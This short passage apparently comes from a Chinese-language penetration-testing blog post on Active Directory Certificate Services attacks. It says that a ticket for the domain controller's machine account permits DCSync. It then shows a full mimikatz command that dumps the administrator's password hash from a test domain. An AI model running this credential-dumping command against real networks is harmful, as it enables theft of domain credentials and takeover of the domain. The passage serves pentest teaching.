 持有域控机器帐户的票据可以执行一些特权操作，例如通过 DCSync 转储域用户哈希，如下所示。

```console
C:\Users\Marcus\Desktop> mimikatz.exe "lsadump::dcsync /domain:pentest.com /user:pentest\administrator" exit
```

![](/assets/posts/2022-03-25-attack-surface-mining-for-ad-cs/njViNrsHxTzKudG.png)
